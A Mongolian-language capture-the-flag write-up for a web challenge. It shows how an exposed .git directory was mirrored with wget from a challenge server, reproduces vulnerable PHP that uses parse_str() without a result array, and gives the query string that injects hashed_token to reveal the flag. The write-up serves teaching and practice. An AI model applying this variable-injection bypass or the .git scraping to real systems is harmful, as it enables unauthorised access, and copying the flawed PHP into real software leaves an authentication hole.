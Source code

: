 # Алдаатай API
**Category:** Web
**Points:** 1000
**Description:**

Шинэхэн инженерт API бичих ажил ноогдов

http://218.100.84.106:8011


## Write-up
Вебийн `/robots.txt` файл руу орж үзвэл:

```
User-agent: *
Disallow: /.git
```

`/.git`-руу орж үзвэл "Index of /.git" гээд directory доторх файлуудын жагсаалт гарч ирэв:
![index-of-git](index-of-git.png)

Энэ directory доторх бүх файлуудыг татаж авъя:
```sh
wget --execute="robots=off" --mirror --no-parent http://218.100.84.106:8011/.git/
```

Одоо `.git` агуулсан directory-руу орж `gitk .` гэсэн коммандыг бичиж git-н түүхийг харъя. Энд байгаа код одоо ажиллаж буй код байх өндөр магадлалтай.

```php
// index.php
<?php
require_once 'flag.php';

$res = null;
$action = null;

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'get_user'){
    echo json_encode(
        array(
            array('id'=>1, 'user'=>'dorj', 'created_at'=>'1537259795', 'member_of'=>'superuser,hz_admin', 'access_token'=>'<*** masked ***>'),
            array('id'=>2, 'user'=>'bat', 'created_at'=>'1537259896', 'member_of'=>'user', 'access_token'=>'<*** masked ***>')
        )
    );
} elseif ($action === 'login_user') {
    $user = $res['user'];
    $access_token = $res['access_token'];

    if (!empty($user) && !empty($pass)) {
        $hashed_token = hash('md5', $user.$access_token);
    }
    if (!empty($hashed_token) && $hashed_token === '7a6e40e23f8ed20b9e54a47d2cb67ba5') {
        echo $flag;
    } else {
        echo 'False token!';
    }
} else {
    echo json_encode(array('action_list'=>array('get_user', 'login_user')));
}
```

Шинэхэн инженер маань `parse_str()` функцын ажиллагааг буруу ойлгосон бололтой, алдаатай ашигласан байна. `parse_str($query)`-ээс дараах утгуудыг гаргаж чадвал flag-руу хандах нь ээ:
```
$action = "login_user"
$hashed_token = "7a6e40e23f8ed20b9e54a47d2cb67ba5"
```

Ингээд `/?action=login_user&hashed_token=7a6e40e23f8ed20b9e54a47d2cb67ba5` гэж вебийг дуудсанаар зорилтондоо хүрлээ:

```
hz{2ead56d93095f15ad3fbee9fb0054d28} Outline
```

## Other write-ups and resources

